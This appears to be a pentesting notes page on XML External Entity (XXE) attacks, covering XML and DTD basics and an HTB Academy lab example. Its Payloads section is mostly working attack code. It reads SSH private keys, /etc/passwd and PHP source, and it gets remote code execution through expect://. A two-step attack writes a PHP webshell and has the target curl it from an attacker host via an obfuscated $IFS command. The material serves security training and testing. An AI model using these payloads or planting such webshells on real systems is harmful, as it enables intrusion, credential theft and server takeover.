```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# XXE

{% hint style="warning" %}
**Advanced file disclosure** and **blind data exfil** to be added.
{% endhint %}

## TL;DR

**Extensible Markup Language (XML)** is focused on the storage and transportation of data and its key compoments are depicted below (Figure 1).

<figure><img src="../../.gitbook/assets/xxe_xml_compoments.png" alt=""><figcaption><p>Figure 1: The key components of an XML document (image adapted from <a href="https://www.w3schools.com/xml/xml_syntax.asp">here</a>).</p></figcaption></figure>

If we need to use the XML-specific characters within an XML document they must be replaced with their corresponding entity references.

| XML reserved character | Entiry reference |
| ---------------------- | ---------------- |
| `<`                    | `&lt;`           |
| `>`                    | `&gt;`           |
| `&`                    | `&amp;`          |
| `'`                    | `&apos;`         |
| `"`                    | `&quot;`         |

What we are mostly interesting in from an attacker's POV is the [**XML Document Type Definition (DTD)**](https://www.w3schools.com/xml/xml\_dtd\_intro.asp) which allows the validation of an XML document against a pre-defined doc structure. The DTD can be placed within the XML doc itself (Figure 2), imported from an external file (Figure 3.1), or referenced through a URL (Figure 3.2).

<div>

<figure><img src="../../.gitbook/assets/xxe_dtd.png" alt="" width="354"><figcaption><p>Figure 2: An example of a DTD placed within the XML document (image adapted from <a href="https://www.w3schools.com/xml/xml_dtd_intro.asp">here</a>).</p></figcaption></figure>

 

<figure><img src="../../.gitbook/assets/xxe_dtd_references.png" alt=""><figcaption><p>Figure 3: A DTD imported from an external file (1) and a URL (2) (images adapted from <a href="https://www.w3schools.com/xml/xml_dtd_intro.asp">here</a>).</p></figcaption></figure>

</div>

Within DTDs we can define **entities** (XML variables) using the `ENTITY` keyword. We can define them either **internally** (followed by the entity name and its value) or **externally** (followed by the `SYSTEM` keyword and its path).

```xml
<!-- Internal Entity Example -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
  <!ENTITY sender "x7331">
]>

<!-- External Entity Example -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
  <!ENTITY sender SYSTEM "http://example.com/note.txt">
]>
```

We can then expand them the same way.

```xml
<name>&sender;</name>
```

## Payloads

### RCE

Look for SSH private keys.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE userid [
  <!ENTITY xxetest SYSTEM "file:///home/kali/.ssh/id_rsa">
]>
```

If the `PHP://expect` filter is installed (it's not by default) and the output is reflected.

```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://whoami'">
]>
```

Fetch a webshell.

{% tabs %}
{% tab title="1. Web shell" %}
```bash
# creating a PHP webshell
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
# starting a Python3 HTTP server
sudo python3 -m http.server 80
```
{% endtab %}

{% tab title="2. XXE" %}
```xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
{% endtab %}
{% endtabs %}

### LFI

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE userid [
  <!ENTITY xxetest SYSTEM "file:///etc/passwd">
]>
```

### Source Code

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

## Example: XXE to LFI

{% hint style="info" %}
The below example has been taken from the [Web Enumeration & Exploitation](https://academy.hackthebox.com/module/163/section/1544) of HTB's Attacking Enterprise Networks module.&#x20;
{% endhint %}

The checkout process is sending data in XML format (Figure 4).

<figure><img src="../../.gitbook/assets/xxe_example_checkout.png" alt=""><figcaption><p>Figure 4: The checkout process sends dota in XML format.</p></figcaption></figure>

The XML data has 2 fields: `subtotal` and `userid`. We can already see that the value passed into the latter gets reflected back, but we also confirm this (Figure 5).

<figure><img src="../../.gitbook/assets/xxe_detection.png" alt=""><figcaption><p>Figure 5: Testing XML fields.</p></figcaption></figure>

By adding a simple XML payload we can achieve LFI (Figure 6).

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE userid [
  <!ENTITY xxetest SYSTEM "file:///etc/passwd">
]>
```

<figure><img src="../../.gitbook/assets/xxe_lfi.png" alt=""><figcaption><p>Figure 6: LFI via XXE.</p></figcaption></figure>

In certain Java web applications, we may also be able to specify a directory instead of a file, and we will get a directory listing instead, which can be useful for locating sensitive file.

## Resources

{% tabs %}
{% tab title="w3schools" %}
{% embed url="https://www.w3schools.com/xml/default.asp" %}
{% endtab %}

{% tab title="PortSwigger" %}
{% embed url="https://portswigger.net/web-security/xxe" %}
{% endtab %}

{% tab title="HackTricks" %}
{% embed url="https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity" %}
{% endtab %}
{% endtabs %}
